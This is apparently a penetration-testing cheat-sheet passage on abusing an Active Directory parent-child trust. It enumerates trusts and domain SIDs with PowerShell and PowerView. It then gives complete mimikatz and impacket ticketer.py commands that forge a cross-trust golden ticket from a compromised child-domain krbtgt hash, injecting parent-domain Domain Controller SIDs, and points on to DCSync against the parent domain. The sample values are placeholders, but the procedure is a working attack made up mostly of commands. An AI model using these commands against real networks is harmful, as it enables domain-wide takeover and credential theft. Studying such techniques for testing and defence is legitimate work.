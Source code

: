 ```

SourceDomain         TargetDomain         TrustType   TrustDirection
------------         ------------         ---------   --------------
child.megacorp.local megacorp.local       ParentChild Bidirectional
child.megacorp.local megacorp.com         External    Bidirectional
megacorp.com         child.megacorp.local External    Bidirectional
megacorp.local       child.megacorp.local ParentChild Bidirectional
```

Exploiting Bidirectional-ParentChild trust between child.megacorp.local ⟷ megacorp.local.

For creating a cross-trust golden ticket we'll need:

1. child domain FQDN (`child.megacorp.local`);
2. name of the child domain's DC machine account and its RID (`DC01$`, `31337`);
3. the SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. the SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.

```
1.
PS > $env:userdnsdomain
child.megacorp.local

2.
PowerView2 > Get-NetComputer -FullData DC01.child.megacorp.local | Select ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-31337

3.
PowerView2 > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634

4.
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:31337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt
Or
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -user-id 31337 -groups 516 -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01'
```

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

